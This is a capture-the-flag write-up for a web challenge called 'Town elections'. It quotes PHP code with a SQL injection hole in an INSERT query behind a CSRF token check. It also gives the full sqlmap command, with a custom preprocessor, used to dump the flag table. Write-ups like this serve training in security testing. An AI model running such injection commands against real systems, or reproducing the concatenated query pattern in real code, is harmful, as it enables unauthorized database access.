


# Town elections

## Summary

Flag: `UAD360{CsrF_1s_n0t_3n0ugh}`

Description: Elections have just been called, my team and I are wondering if the system is secure.

## Write-up

This challenge only has a single input to submit a candidacy to the elections:



For this challenge we are given the source code, doing code review is easy to check that there is a SQL injection in the following piece of code:

```php
if (isset($_POST['president'])) {
    if(isset($_SESSION['csrf_token']) && isset($_POST['csrf_token']) && $_SESSION['csrf_token'] === $_POST['csrf_token'] ){
        $query = "INSERT INTO candidates (cand_name) VALUES('" . $_POST['president'] . "')";
        $conn->query($query);
    }
}
```

However, it checks a single csrf token for each request so we need to make some small changes in order to automate the attack. In my case, I created a `sqlmap` [preprocessor](solver/solver.py) to automate it.

> It could also be done by creating a proxy server or a custom script.


Lastly, we just use `sqlmap` to get the flag with the following command:

```
sqlmap -u http://localhost/index.php --method POST --data "president=*" --dbms=mysql --level 5 --risk 3 --technique=T --preprocess ./solver.py --batch -D elections -T flag --dump

```

Here is the flag:

